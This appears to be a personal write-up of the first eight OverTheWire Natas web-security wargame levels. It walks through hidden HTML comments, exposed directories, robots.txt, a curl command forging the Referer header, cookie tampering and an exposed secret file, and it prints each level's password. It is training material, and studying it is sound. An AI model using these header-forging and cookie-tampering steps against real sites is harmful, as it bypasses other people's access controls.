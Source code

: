 # overthewire.org

I'm trying to solve the challenges of overthewire.org.

<!-- Note, Tip, Important, Warning, Caution -->

> [!Important] 
> The description of each step is essentially derived from the previous step. For example, the solution to Natas1 is something that must be found in Natas0.

- All user is name of levels

        http://natas`X`.natas.labs.overthewire.org/

        user:natas`X`
        pass:*******

## natas0 http://natas0.natas.labs.overthewire.org/

- He himself gave us the username and password in overthewire.org for start HACKGAME.

        user:natas0
        pass:natas0

## natas1 http://natas1.natas.labs.overthewire.org/

1. Get the page's source.
2. Look the HTML comment.

        <!--The password for natas1 is 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq -->

## natas2 http://natas2.natas.labs.overthewire.org/

- You cannot right-click.
1. Get the page's source.
2. Look the HTML comment.

        <!--The password for natas2 is TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI -->

## natas3 http://natas3.natas.labs.overthewire.org/

- There is nothing in the page's source.
1. Get the page's source.
2. In source you can find .

        <img src="files/pixel.png">

3. So we have a path named `files/` and access to that path is not blocked.
        
    in this path you can find : `users.txt`

        # username:password
        alice:BYNdCesZqW
        bob:jw2ueICLvT
        charlie:G5vCxkVV3m
        natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH <-| The password is here.
        eve:zo4mJWyNj2
        mallory:9urtcpzBmH

## natas4 http://natas4.natas.labs.overthewire.org/

- he have comment in page's source

        <!-- Not even Google will find it this time... -->

1. Sites often use a ‍‍‍‍‍‍‍‍`robots.txt` file in root of site to tell search engines what files and paths they should not see.

        http://natas3.natas.labs.overthewire.org/robots.txt

    in this file you can find a path : `/s3cr3t/`

2. go to : `http://natas3.natas.labs.overthewire.org/s3cr3t/`

    in this path you can find : `users.txt`

        natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

## natas5 http://natas5.natas.labs.overthewire.org/

- he has a text message :

        You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

1. When you click `Reload Page`, the message changes to this :

        Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/index.php" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

    you need change `Referer` HTTP header

2. for change referer http header, i use `curl`

    i run ubuntu in windows with `wsl`

        ~$ curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org

    tada :

        Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK

## natas6 http://natas6.natas.labs.overthewire.org/

- he has a text message :

        Access disallowed. You are not logged in

1. Okay. Matt's login information must be stored somewhere.

    So first I went to check the `storage`, I'm using `Chrome`.

2. Pressing the `F12` button in Google Chrome opens the developer tools, in the `Application` tab, I look for something in storage and found it in the `Cookies` section.
   
        loggedin : 0

3. cheange loggedin to `1` and refresh.

        Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned

## natas7 http://natas7.natas.labs.overthewire.org/

- By clicking on `View sourcecode` a PHP script is shown

        <?
        include "includes/secret.inc";

        if(array_key_exists("submit", $_POST)) {
                if($secret == $_POST['secret']) {
                print "Access granted. The password for natas7 is <censored>";
            } else {
                print "Wrong secret";
            }
        }
        ?>

1. This code tells the ‍`$_POST['secret']` parameter to be checked against the `$secret` variable, and `$secret` itself is located in the `includes/secret.inc` file.

   just open `http://natas6.natas.labs.overthewire.org/includes/secret.inc`

        <?
        $secret = "FOEIUWGHFEEUHOFUOIU";
        ?>

2. now submit form with Input secret: `FOEIUWGHFEEUHOFUOIU`

        Access granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNERkHxGre0GS